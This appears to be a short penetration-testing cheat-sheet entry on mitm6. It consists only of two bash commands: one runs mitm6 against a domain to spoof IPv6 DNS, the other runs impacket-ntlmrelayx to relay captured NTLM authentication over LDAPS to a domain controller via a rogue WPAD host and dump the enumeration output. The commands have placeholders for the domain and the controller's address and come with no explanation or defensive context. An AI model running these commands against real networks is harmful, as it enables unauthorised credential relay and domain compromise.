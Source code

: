 ```yaml
---
category: Uncategorized
tags: []
---
```

mitm6

~~~bash
mitm6 -d [domain].[ext]
~~~

~~~bash
impacket-ntlmrelayx -6 -t ldaps://[domain controller ip] -wh nullwpad.[domain].[ext] -l /home/kali/Working/enumeration/mitm6_dump
~~~

